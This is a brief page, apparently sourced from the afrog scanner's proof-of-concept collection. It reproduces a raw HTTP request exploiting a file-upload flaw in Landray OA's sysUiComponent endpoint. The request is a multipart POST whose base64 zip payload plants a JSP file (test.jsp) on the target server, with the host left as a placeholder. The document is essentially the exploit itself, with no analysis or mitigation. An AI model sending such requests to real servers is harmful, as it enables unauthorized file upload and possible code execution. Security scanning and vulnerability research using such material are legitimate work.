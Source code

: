 # landray_oa_sysuicomponent_fieupload

from: https://github.com/zan8in/afrog/blob/da48a07b58989c01648ae96a8fcb37b6890f6c9d/v2/pocs/afrog-pocs/vulnerability/landray-oa-sysuicomponent-fileupload.yaml#L47
```
POST /sys/ui/sys_ui_component/sysUiComponent.do?method=upload HTTP/1.1
Host: xxx
Connection: close
Accept-Encoding: gzip, deflate, br
Accept: */*
User-Agent: python-requests/2.27.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary848412406
Content-Length: 541

------WebKitFormBoundary848412406
Content-Disposition: form-data; name="file"; filename="xxx.zip"
Content-Type: application/x-zip-compressed

{{base64Decode("UEsDBBQAAAAIAEVrcFcd+E8oKAAAACYAAAAIAAAAdGVzdC5qc3CzUVXILy3RKyjKzCvJydNQ8iotLkl0TCwOCE4zNDIyNlLStFZQtQMAUEsDBBQAAAAIAGlrcFdRNnIYHAAAABoAAAANAAAAY29tcG9uZW50LmluactMsTUyMLQ0Mrbg5cpLzE21Tc5ITc7WK6koAQBQSwECHwAUAAAACABFa3BXHfhPKCgAAAAmAAAACAAkAAAAAAAAACAAAAAAAAAAdGVzdC5qc3AKACAAAAAAAAEAGAB3R8xoTRjaAXdHzGhNGNoBRiZA9UIY2gFQSwECHwAUAAAACABpa3BXUTZyGBwAAAAaAAAADQAkAAAAAAAAACAAAABOAAAAY29tcG9uZW50LmluaQoAIAAAAAAAAQAYACmZwpFNGNoBKZnCkU0Y2gF5vhgvSxjaAVBLBQYAAAAAAgACALkAAACVAAAAAAA=")}}
```
